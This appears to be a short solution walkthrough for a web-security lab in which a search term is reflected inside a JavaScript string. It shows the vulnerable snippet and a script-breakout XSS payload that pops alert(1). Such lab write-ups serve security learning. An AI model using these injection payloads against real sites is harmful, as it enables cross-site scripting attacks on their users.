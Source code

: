 ## Solution steps

- Enter a random string in the search box like: `hello`
- View page source and notice it gets reflected in a javascript
  `<script>
    var searchTerms = 'hello';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  </script>`
- So now we just have to breaks out of this JavaScript.
- Close the string using `';` and `</script>` will end the original script block.
- Enter this final payload in the search box: `';</script><script>alert(1)</script>`
